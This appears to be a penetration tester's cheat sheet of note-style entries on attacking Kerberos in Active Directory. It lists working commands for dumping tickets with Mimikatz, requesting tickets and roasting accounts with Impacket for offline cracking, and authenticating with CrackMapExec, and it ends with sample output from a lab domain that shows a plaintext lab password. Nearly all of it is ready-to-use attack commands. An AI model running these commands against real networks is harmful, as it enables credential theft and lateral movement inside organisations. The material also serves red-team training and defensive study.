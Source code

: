 #### \[\[Mimikatz Cheat Sheet]]

*   **Description:** A post-exploitation tool that can extract Kerberos tickets (TGTs) from memory, enabling pass-the-ticket attacks.

    ```bash
    sekurlsa::tickets /export
    ```
* **Use Case:** Extracting and exporting Kerberos tickets for further analysis or lateral movement.

#### \[\[Impacket]]

**\[\[Impacket-getTGT]]**

*   **Obtain a TGT via username/password:** Obtaining a TGT for a specified user, which can then be used for further attacks.

    ```bash
    impacket-getTGT <domain>/<username>:<password>
    ```

**\[\[Impacket-getST]]**

*   **Obtain a Service Ticket via TGT:**

    ```bash
    impacket-getST <domain>/<username>:<password> -spn <service>/<hostname>
    ```

**\[\[zImpacket-getNPUsers]]**

*   **Harvest TGTs for users without pre-authentication:**

    ```bash
    impacket-getnpusers -dc-ip <target_ip> -no-pass <domain>/<username>
    ```

**\[\[Impacket-getUsersSPNs]]**

*   **Extract Service Tickets:** Obtain Service Tickets for offline cracking.

    ```bash
    impacket-getuserspns <domain>/<username>:<password> -dc-ip <target_ip> -request
    ```

#### \[\[CrackMapExec]]

*   **Connect via username/password:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p <password> --kerberos
    ```
*   **Use Case:** Exploit Kerberos services for access and post-exploitation activities.

    CME supports Kerberos authentication. There are two options, directly using a password/hash or using a ticket and using the KRB5CCNAME env name to specify the ticket. When using the option `-k` or `--use-kcache`, you need to specify the same hostname (FQDN) as the one from the kerberos ticket.

    ```bash
    sudo cme smb zoro.gold.local -k -u bonclay -p Ocotober2022
    SMB         zoro.gold.local 445    ZORO             [*] Windows 10.0 Build 14393 (name:ZORO) (domain:gold.local) (signing:False) (SMBv1:False)
    SMB         zoro.gold.local 445    ZORO             [+] gold.local\bonclay
